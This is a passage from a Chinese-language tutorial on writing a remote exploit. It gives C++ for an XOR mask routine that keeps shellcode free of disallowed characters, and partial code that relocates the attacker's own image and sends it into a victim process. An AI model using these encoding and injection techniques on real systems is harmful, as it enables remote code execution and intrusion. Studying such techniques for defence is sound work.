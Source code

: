 GetXorMask用于计算对stubparam和stubcode进行异或处理的掩码，代码如下：

```cpp
BYTE GetXorMask(LPCBYTE pData, int nSize, LPCBYTE arrDisallow, int nCount)
{
    BYTE arrUsage[256], by = 0;
    memset(arrUsage, 0, sizeof(arrUsage));
    for(int i=0; i<nSize; i++)
        arrUsage[*(pData + i)] = 1;
    for(i=0; i<256; i++)
    {
        by = (BYTE)i;
        //xor mask can not be a disallowed char
        for(int j=0; j<nCount; j++)
            if(arrDisallow[j] == by)
                break;
        if(j < nCount)
            continue;
        //after xor, the data should not contain a disallowed char
        for(j=0; j<nCount; j++)
            if(arrUsage[arrDisallow[j] ^ by] == 1)
                break;
        if(j >= nCount)
            return by;
    }
    //we don't find it, return the first disallowed char for an error
    return arrDisallow[0];
}
```

异或处理完毕后，PrepareStub要根据动态计算出来的数据，修改stubstubcode。由于数据是动态算出来的，所以需要对最终的stubstubcode做一个检查，看里面有没有不允许的字符。最后，它用g_szStubTail把stub填充为一个完整地UNC字符串，整个stub的准备工作宣告完成。

前面已经说过，stubcode的任务是在victim中建立一个attacker的映像，然后把控制权交给它里边的AttackerEntry函数。因而attacker的第二步工作是把自身的一个拷贝重定位后，发给stubcode。下面的代码就来完成这些任务：

```cpp
…
DWORD dwNewBase, dwSize;
LPBYTE pImage;
recv(sck, (char*)(&dwNewBase), sizeof(DWORD), 0);
dwSize = GetImageSize((LPCBYTE)g_hInst);
pImage = (LPBYTE)VirtualAlloc(NULL, dwSize,    MEM_COMMIT, PAGE_READWRITE);
memcpy(pImage, (const void*)g_hInst, dwSize);
RelocImage(pImage, (DWORD)g_hInst, dwNewBase);
DoInject(sck, pImage, dwSize);
…
```

attacker先从stubcode中获得它分配的内存的起始地址，这个地址就是attacker在victim中的映像基址。然后attacker把自身复制一份，并按照新的映像基址对这个拷贝进行重定位，RelocImage的代码与《进程隐藏》中的基本相同，这里不再重复。但要注意：默认情况下，链接器不会为EXE文件生成重定位表。所以链接attacker时，要加上参数“/FIXED:No”，强制链接器生成重定位表。DoInject完成数据发送，也是简单的网络通讯，所以略过不讲。

在victim中，控制权最终会传递到下面这个函数的手中。
